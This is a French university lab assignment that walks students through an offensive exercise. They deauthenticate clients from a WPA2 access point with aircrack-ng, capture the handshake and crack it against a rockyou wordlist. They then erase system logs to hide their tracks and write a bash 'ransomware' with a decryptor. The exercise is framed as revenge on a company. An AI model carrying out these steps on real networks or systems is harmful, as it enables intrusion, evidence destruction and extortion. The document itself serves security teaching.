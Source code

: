 
# TP3

L'objectif de ce TP est d'éffectuer plusieurs attaques qui exploitent les failles connues des protocoles de communication.


## Hacker un point d'accès 
On fait appel à vous pour faire tomber le point d'accès d'une entreprise en menant une attaque de type **DOS**.

- Que signifie **DOS** ? Faîtes un schéma explicatif simple pour illustrer.
- Le point d'accès utilise WPA2 pour l'authentification et encrypter les communications. À quoi sert une PSK? Pour quelles raisons ?

Afin de réaliser la tâche qui vous ait demandé, installez la suite `aircrack-ng` et `wireshark`:

```
sudo apt update
sudo apt install aircrack-ng wireshark
```
- Maintenant, commencer par lister l'ensemble des interfaces réseaux de votre station/pc: `ipconfig` ou `ip a` 
- Démarrer airmon-ng sur votre interface wifi (ici on considère que l'interface se nomme `wlan1` ) : `airmon-ng start wlan1`

Cette commande crée une nouvelle interface en mode monitor ayant comme nom: **wlan1mon** suivant votre système. 
Vérifier l'existence de cette interface. Il se peut que votre carte wifi ne supporte pas le mode **moniteur/injecteur**.  Dans ce cas, il faudrait passer par une antenne WiFi.

- Lancer l'analyse des réseaux wifi avoisinant à l'aide de airodump-ng: `airodump-ng wlan1mon`
- À partir de l'analyse de airodump-ng, récupérer le BSSID (@MAC du point d'accès) et le numéro de canal de fréquence utilisé par le point d'accès cible. 
- Arreter la commande précedente et ouvrez deux terminaux.
- Sur le premier terminal, capturez uniquement les informations concernant le point d'accès cible et sauvegarder le tout dans un fichier nommé **log**:
`airodump-ng --bssid <bssid_cible> -c <numero_channel_cible> -w log wlan1mon`.
Essayez de vous connecter sur le point d'accès cible avec un autre équipement pour vérifier que vous arrivez à le détecter.
- Sur le deuxième terminal, forcez la déconnexion de toutes les personnes connectées au point d'accès ciblé pour forcer leurs reconnexion:
`aireplay-ng --deauth 0 -a <bssid> wlan1mon`
- Lorsque le *WPA_HANDSHAKE*, est correctement identifié sur le premier terminal, arretez la capture.
- Vous pouvez analyser le fichier **log-01.cap** avec wireshark afin de recherchez le handshake.
Pour cela, ouvrez le fichier .cap avec wireshark : `wireshark log-01.cap` et recherchez **eapol** (extensible authentication protocol over lan).
Si, un handshake a été capturé, vous devriez voir des handshakes echangés en quatre phase **Message 1/4, 2/4, ...**.
- Ouvrez le message **Message 2/4** par exemple, et allez dans le champ **802.1X Authentication** pour regarder le paramètre *WPA Key Data*.
- Maintenant, essayons de déchiffrez le mot de passe correspondant au Handshake capturée pour obtenir le mot de passe du réseau Wifi. 
Nous allons exploiter un mini-dictionaire de *131MB*: `wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt`.
- Repassez vos carte wifi en mode normal et arretez tout monitoring. Puis exécuter: `aircrack-ng log-01.cap -w rockyou.txt` 
Si le mot de passe est contenu dans le fichier *rockyou.txt*, alors il sera découvert. Biensur il existe des dictionnaires plus robustes mais il est aussi possible de créer le votre.


## Couvrir ses traces 

Après votre aventure sur le point d'accès, il s'avère que vous avez laissé trop de traces sur votre station qui peuvent vous porter préjudice dans l'avenir. 
Il vous faut nettoyer vos traces en supprimant les logs de votre système.


- Pour vous, un fichier log représente quoi ?
- Où sont sauvegardés la plupart des logs dans une distribution Linux ? Et Windows ? Et MacOs ?
- Localisez et supprimer les logs qui concernent les démarrages de votre ordinateur, l'historique de vos commandes et les différentes connexions sur votre PC.
- Avez-vous une méthode pour éviter de générer trop de logs sur votre station lors d'une attaque ? Décrivez là.

## Ransomware 

Finalement, l'entreprise ayant fait appel à vous se retourne contre vous et réalise une campagne de diffamation vous concernant.
Afin de leur donner une bonne leçon, vous voulez profitez d'un accès dérobé à leur service pour installer un ransomware personalisé.
Concrètement votre ransomware, doit être sous la forme d'un script (dans le langage de votre choix, $bash$ de préférence pour ne pas avoir à installé des dépendences chez la cible).
Votre ransomware entrera dans chaque dossier du repertoire et : 

    - Pour chaque dossier, changer le nom du dossier en appliquant l'algorithme de Cesar à trois décalages, donc un dossier avec le nom DJOB deviendra GMRE.
    - Pour chaque fichier, si le contenu est textuel, appliquer l'algorithme de Cesar à cinq décalages.

Par précaution pour vous-même, écrivez l'antidote de votre ransomware afin de vous prémunir en cas d'une attaque réflexive ou en marge de négotiation. 
Appelez vos deux programmes (virus et antidote) NOM_PRENOM_VIRUS.sh et NOM_PRENOM_CORR.sh où NOM et PRÉNOM correspondent à vos noms et prénoms.

D'après vous, quelles sont les principes de sécurités qu'il faut appliquer pour se prémunir de ce type d'attaques ? 


